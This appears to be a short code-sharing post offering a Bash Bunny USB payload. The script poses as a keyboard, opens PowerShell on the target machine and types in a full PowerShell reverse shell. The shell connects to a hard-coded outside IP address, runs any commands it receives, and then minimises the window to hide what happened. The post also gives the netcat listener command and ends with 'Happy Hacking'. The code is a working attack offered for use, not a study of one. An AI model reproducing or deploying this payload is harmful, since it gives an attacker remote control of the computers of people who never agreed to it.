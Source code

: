 A simple reverse shell for the Bash Bunny. I use it to connect to a Lightsail server. Just enter the IP and Port of the listener. Listener command nc -lnvp then port number.
Put payload in switch folder.

Heres the code. Happy Hacking.

#TITLE. ReverseShellBunny
#AUTHOR.DarkStorme
#Reverse Shell for the Bash Bunny

#!/bin/bash

# Set attack mode to HID
ATTACKMODE HID

# LED attack indication
LED ATTACK

# Open PowerShell
QUACK GUI r
QUACK DELAY 500
QUACK STRING powershell.exe
QUACK DELAY 500
QUACK ENTER
QUACK DELAY 2000

# Define the PowerShell payload
PS_PAYLOAD='$client = New-Object System.Net.Sockets.TCPClient("35.178.129.243",8080);$stream = $client.GetStream();$bytes = New-Object byte[] 65536;while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {$data = [System.Text.Encoding]::ASCII.GetString($bytes, 0, $i);$sendback = (Invoke-Expression -Command $data 2>&1 | Out-String);$sendbyte = [System.Text.Encoding]::ASCII.GetBytes($sendback);$stream.Write($sendbyte, 0, $sendbyte.Length);$stream.Flush()};$client.Close()'

# Send the PowerShell payload
QUACK STRING "$PS_PAYLOAD"
QUACK ENTER
QUACK DELAY 5000
QUACK GUI d

# LED finish indication
LED FINISH
